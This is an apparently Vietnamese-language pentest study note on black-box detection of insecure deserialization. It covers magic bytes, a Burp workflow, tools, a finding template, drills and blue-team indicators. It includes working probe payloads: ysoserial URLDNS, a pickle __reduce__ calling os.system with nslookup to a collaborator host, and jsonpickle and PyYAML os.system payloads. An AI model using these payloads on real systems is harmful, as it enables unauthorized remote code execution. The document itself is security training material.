

> **Prerequisites**: [[02-php-magic-methods|02. PHP Magic Methods]], [[08-java-serialization-internals|08. Java Serialization Internals]], [[16-python-pickle-rce|16. Python Pickle RCE]]
> **Objectives**:
> - Nhận diện deserialization data từ bất kỳ ngôn ngữ nào trong HTTP traffic
> - Áp dụng detection workflow có hệ thống với Burp Suite
> - Xác nhận deserialization tồn tại trước khi tấn công (URLDNS/sleep)
> - Biết chính xác khi nào dùng tool gì

---

## Overview & Mindset

Black-box deserialization testing là việc tìm kiếm serialized data trong traffic mà **không có source code**. Thách thức chính: serialized objects thường trông giống base64 garbage — attacker cần biết pattern để phân biệt.

Nguyên tắc: **detect trước, exploit sau**. Luôn dùng URLDNS/sleep probe để confirm trước khi gửi reverse shell — tránh crash server và giảm noise trong logs.

---

## Enumeration Checklist

```
□ Intercept tất cả HTTP requests với Burp Suite — bật Proxy
□ Kiểm tra Cookie header: tìm base64 blobs có magic prefixes
□ Kiểm tra POST body: Content-Type application/octet-stream, serialized JSON
□ Kiểm tra GET parameters: data=, token=, session=, object=
□ Kiểm tra hidden form fields: <input type="hidden" value="...">
□ Kiểm tra ViewState (ASP.NET): __VIEWSTATE parameter
□ Kiểm tra custom headers: X-Auth-Token, X-Session-Data
□ Kiểm tra WebSocket messages nếu app dùng WS
□ Error messages: java.io.InvalidClassException, unserialize(), UnpicklingError
□ HTTP response headers: X-Powered-By (Java/PHP/Python version hints)
□ Nmap: scan ports 1099, 7001, 8686, 50000, 61616 cho non-HTTP sinks
```

---

## Magic Byte & Signature Reference

Bảng tra cứu nhanh cho tất cả ngôn ngữ:

| Ngôn ngữ | Raw Bytes | Base64 Prefix | String Pattern | Ghi chú |
|----------|-----------|---------------|----------------|---------|
| **Java** | `AC ED 00 05` | `rO0AB` | — | Luôn starts with rO0AB khi b64 |
| **Java (gzip)** | `1F 8B` | `H4sI` | — | Gzipped Java stream |
| **PHP** | — | — | `O:4:"User":2:{...}` | Text format, rõ ràng |
| **PHP array** | — | — | `a:2:{i:0;s:4:"test";}` | PHP serialized array |
| **Python pickle (P3)** | `80 04` | `gASV` | — | Protocol 4 |
| **Python pickle (P2)** | `80 02` | `gAJw` | — | Protocol 2 |
| **Python pickle (P0)** | — | — | `(dp0\nS'key'` | Text protocol 0 |
| **.NET BinaryFormatter** | `00 01 00 00` | `AAEAAAD` | — | Legacy .NET |
| **Ruby Marshal** | `04 08` | `BAg=` | — | Ruby serialized |

### Quick Detection Commands

```bash
# Decode và check magic bytes — dùng cho bất kỳ base64 blob nào
check_deser() {
    local b64="$1"
    decoded=$(echo "$b64" | base64 -d 2>/dev/null | xxd | head -2)
    echo "=== Bytes: ==="
    echo "$decoded"
    echo "=== Patterns: ==="
    echo "$b64" | grep -o "^rO0A\|^gASV\|^gAJw\|^H4sI\|^AAEAAA\|^BAg=" || echo "No match"
}

check_deser "rO0ABXNyAC5vcmcuYXBhY2hlLmNvbW1vbnM..."
# === Patterns: ===
# rO0A  → Java serialized
```

---

## Decision Framework



---

## Tool Stack

| Tool | Dùng khi nào | Command nhanh |
|------|-------------|---------------|
| **Burp Suite** | Intercept, modify, repeat requests | Proxy → HTTP history → filter base64 |
| **xxd / hexdump** | Kiểm tra raw magic bytes | `echo "b64" \| base64 -d \| xxd \| head` |
| **pickletools.dis** | Phân tích Python pickle stream | `python3 -c "import pickletools,base64,sys; pickletools.dis(base64.b64decode(sys.argv[1]))" <b64>` |
| **SerializationDumper** | Phân tích Java serialized stream | `java -jar SerializationDumper.jar -b <hexstream>` |
| **flask-unsign** | Decode Flask session cookie | `flask-unsign --decode --cookie <val>` |
| **ysoserial URLDNS** | Confirm Java deser (no library needed) | `java -jar ysoserial.jar URLDNS "http://collab"` |
| **Burp Collaborator** | Out-of-band DNS/HTTP callback | Settings → Collaborator → Copy payload |
| **Freddy (Burp ext)** | Auto-detect deser in all requests | Extensions → Freddy → enable passive scan |

---

## Common Findings & Patterns

### Pattern 1 — Serialized Object In Cookie

```
GET /dashboard HTTP/1.1
Cookie: auth=rO0ABXNyAC5v...   ← Java
Cookie: auth=gASVbgAAAA...      ← Python pickle
Cookie: session=O:4:"User":... ← PHP
```

**Action**: Decode → identify language → URLDNS probe → exploit.

### Pattern 2 — POST Body With Binary Data

```
POST /api/restore HTTP/1.1
Content-Type: application/x-java-serialized-object
Content-Length: 512

aced0005...  ← raw Java stream
```

**Action**: Decode với SerializationDumper → identify classes → ysoserial payload.

### Pattern 3 — Error Message Leakage

```
HTTP/1.1 500 Internal Server Error

java.io.InvalidClassException: org.example.UserSession;
  local class incompatible: stream classdesc serialVersionUID = 1234567890,
  local class serialVersionUID = 9876543210
```

**Action**: Class name xác nhận deserialization → identify gadget library.

```
PHP Warning: unserialize(): Error at offset 0 of 10 bytes in /var/www/app.php on line 42
```

**Action**: PHP unserialize confirmed → thử PHP POP chain.

### Pattern 4 — YAML/JSON With Type Tags

```json
POST /api/settings
{"config": {"py/reduce": [{"py/function": "os.system"}, "id"]}}
```

```yaml
POST /api/import
profile: !!python/object/apply:os.system ["id"]
```

**Action**: jsonpickle/PyYAML → craft RCE payload trực tiếp.

---

## Reporting Notes

Khi viết report cho deserialization finding:

```markdown
## Insecure Deserialization — [Language] — [Location]

**Severity**: Critical
**CVSS**: 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
**CWE**: CWE-502

### Evidence
- URL: POST /api/session/restore
- Parameter: Cookie: auth=rO0ABXNy...
- Confirmation: URLDNS DNS callback received at Burp Collaborator
- RCE confirmed: 5-second response delay with sleep payload

### Impact
Remote Code Execution as [user] on [hostname]. Attacker can:
- Read all application data and secrets
- Pivot to internal network
- Achieve persistence

### Remediation
- Replace Java serialization with JSON/Protobuf for session data
- If serialization required: implement ObjectInputFilter whitelist
- Deploy SerialKiller agent in JVM
```

---

## Daily Drill

**Thời gian**: 15 phút/ngày trong 7 ngày.

**Drill 1 — Magic byte recognition**
Mục tiêu: nhìn base64 prefix biết ngay ngôn ngữ.

```
rO0AB → Java
gASV  → Python pickle (P4)
gAJw  → Python pickle (P2)
AAEAA → .NET
O:4:  → PHP
!!python → PyYAML
```

Luyện cho đến khi: classify đúng 100% trong < 2 giây mỗi cái.

**Drill 2 — URLDNS confirm cho từng ngôn ngữ**

```bash
# Java
java -jar ysoserial.jar URLDNS "http://java.collab" | base64 -w0

# Python
python3 -c "import pickle,os,base64; class U:
  def __reduce__(self): return (os.system,('nslookup py.collab',))
print(base64.b64encode(pickle.dumps(U())).decode())"

# PHP — không có URLDNS native, dùng sleep
python3 -c "import subprocess
print(subprocess.check_output('php -r \"echo serialize(new stdClass());\"', shell=True).decode())"
```

**Drill 3 — Full detection workflow**
Mục tiêu: từ Burp intercept đến confirmed deserialization trong < 3 phút.

1. Intercept request, tìm base64 blob
2. Identify language từ prefix
3. URLDNS probe → Collaborator check
4. Sleep confirm → thông báo kết quả

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators (cho blue team)
> **WAF**: Alert trên magic bytes `AC ED 00 05`, `gASV`, `O:N:` trong HTTP body/cookie
> **Log**: Deserialization exception trong app logs là signal attacker đang probe
> **Network**: Outbound DNS/HTTP từ app server sau suspicious request → URLDNS probe thành công
> **Baseline**: Serialize format thay đổi đột ngột (length, structure) → possible injection

> [!note] Mitigation
> - Scan code cho deserialization entry points định kỳ (SAST)
> - WAF rules cho magic byte patterns
> - DAST tool (Burp Freddy) trong CI/CD pipeline
> - Developer training: không dùng native serialization cho HTTP data

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| HTB | **Arkham** (Retired) | Full black-box: detect Java deser, exploit |
| HTB | **Canape** (Retired) | Python pickle discovery và exploitation |
| PortSwigger | **All deserialization labs** | Structured black-box progression |
| TryHackMe | **Insecure Deserialization** | Multi-language detection practice |
